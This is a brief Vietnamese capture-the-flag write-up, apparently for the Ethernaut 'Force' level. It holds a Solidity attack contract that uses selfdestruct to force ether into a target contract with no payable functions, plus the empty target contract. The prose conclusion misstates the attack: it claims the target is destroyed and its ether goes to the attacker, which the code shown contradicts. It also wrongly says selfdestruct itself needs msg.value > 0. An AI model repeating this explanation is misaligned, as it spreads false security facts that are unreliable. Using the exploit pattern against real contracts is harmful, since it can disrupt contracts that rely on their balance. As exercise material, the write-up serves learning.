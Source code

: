 ### Kết luận
- Lỗ hổng: Kẻ tấn công có thể sử dụng hàm `selfdestruct` để tấn công vào hợp đồng có địa chỉ `muctieu`, điều này sẽ khiến cho hợp đồng bị hủy và toàn bộ ether của hợp dồng sẽ rơi vào tay của kẻ tấn công `msg.sender`.
- Cách phòng ngừa: Thêm `require` chỉ cho phép người `owner` của hợp dồng mới có thể sử dụng hàm `selfdestruct`, kiểm soát những người có thể gửi ether, không cho `selfdestruct` tùy ý.
- Một số lưu ý: Hàm `selfdestruct` yêu cầu `msg.value` phải > 0 nếu không sẽ không thực hiện.
### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract ForceAttack{
    constructor (address payable muctieu) payable { //Dia chi co the nhan Ether (payable)
        require(msg.value >0);
        selfdestruct(muctieu);
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```
